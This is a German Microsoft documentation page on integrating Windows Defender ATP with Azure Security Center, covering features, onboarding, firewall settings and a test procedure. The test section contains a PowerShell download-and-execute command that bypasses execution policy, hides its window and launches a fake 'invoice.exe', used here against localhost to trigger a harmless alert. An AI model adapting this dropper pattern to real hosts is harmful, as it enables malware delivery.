 ```yaml
---
title: Windows Defender Advanced Threat Protection mit Azure Security Center
description: Dieses Dokument stellt die Integration von Azure Security Center und Windows Defender Advanced Threat Protection vor.
services: security-center
documentationcenter: na
author: barclayn
manager: barbkess
editor: ''
ms.service: security-center
ms.devlang: na
ms.topic: conceptual
ms.tgt_pltfrm: na
ms.workload: na
ms.date: 12/13/2018
ms.author: barclayn
ms.openlocfilehash: 09e8ee05017c47c5b01bc529135004eff19b846f
ms.sourcegitcommit: fec0e51a3af74b428d5cc23b6d0835ed0ac1e4d8
ms.translationtype: HT
ms.contentlocale: de-DE
ms.lasthandoff: 02/12/2019
ms.locfileid: "56118461"
---
```

# <a name="windows-defender-advanced-threat-protection-with-azure-security-center"></a>Windows Defender Advanced Threat Protection mit Azure Security Center

Azure Security Center erweitert das Angebot an Cloudworkloadschutz-Plattformen um die Integration in [Windows Defender Advanced Threat Protection](https://www.microsoft.com/en-us/WindowsForBusiness/windows-atp) (ATP).
Diese Änderung bietet umfassende Funktionen für Endpoint Detection and Response (EDR). Durch die ATP-Integration in Windows Defender können Sie Anomalien erkennen. Sie können auch erweiterte Angriffe auf Serverendpunkte erkennen und darauf reagieren, die von Azure Security Center überwacht werden.

Azure Security Center-Kunden können nun die Features von Windows Defender ATP verwenden:

- **Erkennungssensoren der nächsten Generation für Sicherheitsverletzungen**: Windows Defender ATP-Sensoren für Windows-Server erfassen eine breite Palette von verhaltensbezogenen Signalen.

- **Auf Analysen basierende, cloudgesteuerte Erkennung von Sicherheitsverletzungen:**: Windows Defender ATP nimmt eine schnelle Anpassung an sich ändernde Bedrohungen vor. Das Produkt verwendet fortschrittliche Analysen und Big Data. Windows Defender ATP wird durch die Leistungsfähigkeit von Intelligent Security Graph mit Signalen aus Windows, Azure und Office verstärkt, um unbekannte Bedrohungen zu erkennen. Das Produkt stellt aussagekräftige Warnmeldungen zur Verfügung und ermöglicht eine schnelle Reaktion.

- **Informationen zu Bedrohungen**: Windows Defender ATP identifiziert Angriffstools, -techniken und -verfahren. Wenn diese erkannt werden, werden Warnungen generiert. Das Produkt verwendet Daten, die von Microsoft-Bedrohungsspezialisten und Sicherheitsteams generiert werden, ergänzt durch Informationen von Partnern.

Diese Funktionen sind ab sofort in Azure Security Center verfügbar:

- **Automatisiertes Onboarding**: Der Windows Defender ATP-Sensor wird automatisch für Windows-Server aktiviert, die in Azure Security Center integriert sind.

- **Zentralisierte Benutzeroberfläche**: Die Azure Security Center-Konsole zeigt Windows Defender ATP-Warnungen an.

- **Detaillierte Untersuchung des Computers**: Azure Security Center-Kunden können auf die Windows Defender ATP-Konsole zugreifen, um den Umfang einer Sicherheitsverletzung durch eine detaillierte Untersuchung zu erkennen.

![Azure Security Center zeigt eine Liste der Warnungen und allgemeine Informationen zu jeder Warnung an.](media/security-center-wdatp/image1.png)

Sie können die Warnung in Azure Security Center [untersuchen](security-center-investigation.md):

![Das Warnungsuntersuchungsdashboard in Azure Security Center](media/security-center-wdatp/image2.png)

Sie können die Warnung weiter untersuchen, indem Sie sie in Windows Defender ATP pivotieren. Dort werden zusätzliche Informationen wie der Warnprozessbaum und die Ereignisgrafik angezeigt. Sie können auch eine detaillierte Computerzeitachse verwenden, die jedes Verhalten über einen historischen Zeitraum von bis zu sechs Monaten anzeigt.

![Windows Defender ATP-Seite mit Detailinformationen zu einer Warnung](media/security-center-wdatp/image3.png)

## <a name="platform-support"></a>Plattformunterstützung

Dieses Feature unterstützt die Erkennung unter Windows Server 2012 R2 und Windows Server 2016.

Nur die Server in Abonnements für die Standarddienstebene werden unterstützt.

## <a name="onboarding-servers-to-security-center"></a>Integrieren von Servern in Azure Security Center 

Klicken Sie unter der Integration von Servern in Windows Defender ATP auf **Wechseln Sie zum Azure Security Center, um Server zu integrieren**, um Server in das Security Center zu integrieren.

1. Wählen Sie auf dem Blatt **Integrieren** einen Arbeitsbereich aus (oder erstellen Sie einen Arbeitsbereich), in dem die Daten gespeichert werden sollen. <br>
2. Wenn nicht alle Arbeitsbereiche angezeigt werden, kann dies auf fehlende Berechtigungen zurückzuführen sein. Stellen Sie daher sicher, dass Ihr Arbeitsbereich auf den Tarif „Standard“ von Azure Security Center eingestellt ist. Weitere Informationen finden Sie unter [Upgrade auf den Standard-Tarif von Azure Security Center für erhöhte Sicherheit](security-center-pricing.md).
    
3.  Wählen Sie **Server hinzufügen** aus, um Anweisungen zum Installieren von Microsoft Monitoring Agent anzuzeigen. 

4.  Nach der Integration können Sie die Computer unter **Compute und Apps** überwachen.

  ![Integrieren von Computern](media/security-center-wdatp/onboard-computers.png)


## <a name="enable-windows-defender-atp-integration"></a>Aktivieren der ATP-Integration von Windows Defender

Um anzuzeigen, ob die ATP-Integration von Windows Defender aktiviert ist, wählen Sie **Security Center** > **Sicherheitsrichtlinie** > **Abonnement** > **Einstellungen bearbeiten** aus.

  ![Azure Security Center-Richtlinienverwaltung](media/security-center-wdatp/policy-management.png)

Hier können Sie die Integrationen anzeigen, die zurzeit aktiviert sind.

  ![Einstellungsseite von Azure Security Center Threat Detection mit aktivierter Windows Defender ATP-Integration](media/security-center-wdatp/enable-integrations.png)

- Wenn Sie die Server bereits in die Standardebene von Azure Security Center integriert haben, müssen Sie keine weiteren Maßnahmen ergreifen. Azure Security Center integriert die Server automatisch in Windows Defender ATP. Dies kann bis zu 24 Stunden dauern.

- Wenn Sie die Server noch nie in die Standardebene von Azure Security Center integriert haben, integrieren Sie sie wie gewohnt in Azure Security Center.

- Gehen Sie folgendermaßen vor, wenn Sie die Server über Windows Defender ATP integriert haben:
  - Verwenden Sie die Anleitungen in der Dokumentation zum [Aufheben der Integration von Servercomputern](https://go.microsoft.com/fwlink/p/?linkid=852906).
  - Integrieren Sie diese Server in Azure Security Center.

## <a name="access-to-the-windows-defender-atp-portal"></a>Zugreifen auf das Windows Defender ATP-Portal

Befolgen Sie die Anweisungen unter [Zuweisen von Benutzerzugriff auf das Portal](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-atp/assign-portal-access-windows-defender-advanced-threat-protection).

## <a name="set-the-firewall-configuration"></a>Festlegen der Firewallkonfiguration

Wenn Sie einen Proxy oder eine Firewall verwenden, der bzw. die anonymen Datenverkehr blockiert: Da ein Windows Defender ATP-Sensor aus dem Systemkontext eine Verbindung herstellt, stellen Sie sicher, dass anonymer Datenverkehr zulässig ist. Befolgen Sie die Anweisungen unter [Aktivieren des Zugriffs auf Windows Defender ATP-Dienst-URLs im Proxyserver](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-atp/configure-proxy-internet-windows-defender-advanced-threat-protection#enable-access-to-windows-defender-atp-service-urls-in-the-proxy-server).

## <a name="test-the-feature"></a>Testen des Features

So generieren Sie eine unbedenkliche Windows Defender ATP-Testwarnung:

1. Verwenden Sie Remotedesktop, um auf eine Windows Server 2012 R2-VM oder eine Windows Server 2016-VM zuzugreifen.  Öffnen Sie ein Eingabeaufforderungsfenster.

2. Kopieren Sie an der Eingabeaufforderung den folgenden Befehl, und führen Sie ihn aus. Das Eingabeaufforderungsfenster wird automatisch geschlossen.

    ```
    powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe'); Start-Process 'C:\\test-WDATP-test\\invoice.exe'
    ```

   ![Ein Eingabeaufforderungsfenster mit dem oben gezeigten Befehl](media/security-center-wdatp/image4.jpeg)

3. Wenn der Befehl erfolgreich ist, sehen Sie eine neue Warnung im Azure Security Center-Dashboard und im Windows Defender ATP-Portal. Die Anzeige dieser Warnung kann einige Minuten dauern.

4. Um die Warnung in Security Center zu überprüfen, navigieren Sie zu **Sicherheitswarnungen** >  **Verdächtige PowerShell-Befehlszeile**.

5. Wählen Sie im Untersuchungsfenster den Link aus, um zum Windows Defender ATP-Portal zu navigieren.

## <a name="next-steps"></a>Nächste Schritte

- [Festlegen von Sicherheitsrichtlinien in Azure Security Center](tutorial-security-policy.md): Erfahren Sie, wie Sie Sicherheitsrichtlinien für Ihre Azure-Abonnements und -Ressourcengruppen konfigurieren.
- [Verwalten von Sicherheitsempfehlungen in Azure Security Center](security-center-recommendations.md): Erfahren Sie, wie Empfehlungen Ihnen beim Schutz Ihrer Azure-Ressourcen helfen.
- [Überwachen der Sicherheitsintegrität in Azure Security Center](security-center-monitoring.md): Hier erfahren Sie, wie Sie die Integrität Ihrer Azure-Ressourcen überwachen.
